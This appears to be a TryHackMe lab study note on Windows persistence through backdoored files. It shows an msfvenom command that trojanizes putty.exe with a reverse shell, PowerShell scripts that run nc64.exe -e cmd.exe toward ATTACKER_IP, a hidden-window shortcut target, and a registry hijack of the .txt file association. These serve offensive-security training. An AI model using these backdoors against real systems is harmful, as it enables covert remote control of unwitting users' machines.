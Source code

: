 ```yaml
---
title: 2. Backdooring Files 🏐
tags:
  - TryHackMe
  - Theory
---
```

Another method of establishing persistence consists of tampering with some files we know the user interacts with regularly. By performing some modifications to such files, we can plant backdoors that will get executed whenever the user accesses them. Since we don't want to create any alerts that could blow our cover, the files we alter must keep working for the user as expected.

While there are many opportunities to plant backdoors, we will check the most commonly used ones.

## Executable Files

If you find any executable laying around the desktop, the chances are high that the user might use it frequently. Suppose we find a shortcut to PuTTY lying around. If we checked the shortcut's properties, we could see that it (usually) points to `C:\Program Files\PuTTY\putty.exe`. From that point, we could download the executable to our attacker's machine and modify it to run any payload we wanted.

You can easily plant a payload of your preference in any .exe file with `msfvenom`. The binary will still work as usual but execute an additional payload silently by adding an extra thread in your binary. To create a backdoored putty.exe, we can use the following command:

```shell
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
```

The resulting puttyX.exe will execute a reverse_tcp meterpreter payload without the user noticing it. While this method is good enough to establish persistence, let's look at other sneakier techniques.

## Shortcut Files

If we don't want to alter the executable, we can always tamper with the shortcut file itself. Instead of pointing directly to the expected executable, we can change it to point to a script that will run a backdoor and then execute the usual program normally.

For this task, let's check the shortcut to **calc** on the Administrator's desktop. If we right-click it and go to properties, we'll see where it is pointing:

![](Pasted%20image%2020240203110002.png)

Before hijacking the shortcut's target, let's create a simple Powershell script in `C:\Windows\System32` or any other sneaky location. The script will execute a reverse shell and then run calc.exe from the original location on the shortcut's properties:

```powershell
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"

C:\Windows\System32\calc.exe
```

Finally, we'll change the shortcut to point to our script. Notice that the shortcut's icon might be automatically adjusted while doing so. Be sure to point the icon back to the original executable so that no visible changes appear to the user. We also want to run our script on a hidden window, for which we'll add the `-windowstyle hidden` option to Powershell. The final target of the shortcut would be:

```powershell
powershell.exe -WindowStyle hidden C:\Windows\System32\backdoor.ps1
```

![](Pasted%20image%2020240203110026.png)

Let's start an nc listener to receive our reverse shell on our attacker's machine:

```shell
user@AttackBox$ nc -lvp 4445
```

If you double-click the shortcut, you should get a connection back to your attacker's machine. Meanwhile, the user will get a calculator just as expected by them. You will probably notice a command prompt flashing up and disappearing immediately on your screen. A regular user might not mind too much about that, hopefully.

## Hijacking File Associations

In addition to persisting through executables or shortcuts, we can hijack any file association to force the operating system to run a shell whenever the user opens a specific file type.

The default operating system file associations are kept inside the registry, where a key is stored for every single file type under `HKLM\Software\Classes\`. Let's say we want to check which program is used to open .txt files; we can just go and check for the `.txt` subkey and find which **Programmatic ID (ProgID)** is associated with it. A ProgID is simply an identifier to a program installed on the system. For .txt files, we will have the following ProgID:

![](Pasted%20image%2020240203110118.png)

We can then search for a subkey for the corresponding ProgID (also under `HKLM\Software\Classes\`), in this case, `txtfile`, where we will find a reference to the program in charge of handling .txt files. Most ProgID entries will have a subkey under `shell\open\command` where the default command to be run for files with that extension is specified:

![](Pasted%20image%2020240203110136.png)

In this case, when you try to open a .txt file, the system will execute `%SystemRoot%\system32\NOTEPAD.EXE %1`, where `%1` represents the name of the opened file. If we want to hijack this extension, we could replace the command with a script that executes a backdoor and then opens the file as usual. First, let's create a ps1 script with the following content and save it to `C:\Windows\backdoor2.ps1`:

```powershell
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4448"
C:\Windows\system32\NOTEPAD.EXE $args[0]
```

Notice how in Powershell, we have to pass `$args[0]` to notepad, as it will contain the name of the file to be opened, as given through `%1`.

Now let's change the registry key to run our backdoor script in a hidden window:

![](Pasted%20image%2020240203110154.png)

Finally, create a listener for your reverse shell and try to open any .txt file on the victim machine (create one if needed). You should receive a reverse shell with the privileges of the user opening the file.